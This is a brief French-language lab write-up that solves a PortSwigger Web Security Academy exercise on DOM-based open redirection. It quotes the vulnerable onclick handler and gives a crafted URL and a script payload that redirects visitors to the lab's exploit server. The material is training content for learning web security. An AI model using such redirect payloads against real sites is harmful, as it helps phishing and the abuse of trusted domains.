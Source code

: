 # Lab

https://portswigger.net/web-security/dom-based/open-redirection/lab-dom-open-redirection

## Solution

Sur la page d'un article, on voit le bouton `Back to Blog` :

```html
<a href='#' onclick='returnUrl = /url=(https?:\/\/.+)/.exec(location); location.href = returnUrl ? returnUrl[1] : "/"'>Back to Blog</a>
```

La variable `returnUrl` est le resutlat du match de la regex `/url=(https?:\/\/.+)/` sur l'URL de la page. Si la regex match, on est redirigé vers l'URL capturée, sinon on est redirigé vers la racine du site.

On peut ajouter un query parameter `url` à l'URL de la page pour être redirigé vers une URL arbitraire.

`https://ac3f1f3a1f0b0b1c80a3f3d400d900d7.web-security-academy.net/post?postId=1&url=https://google.com`

On est redirigé vers `https://google.com` si on clique sur le bouton `Back to Blog`.

On a plus qu'à faire un exploit de redirection vers cette page :

```html
<script>
    location.href = "https://ac3f1f3a1f0b0b1c80a3f3d400d900d7.web-security-academy.net/post?postId=1&url=https://exploit-0ab2004904597872809d8f1c012a00c4.exploit-server.net/"
</script>
```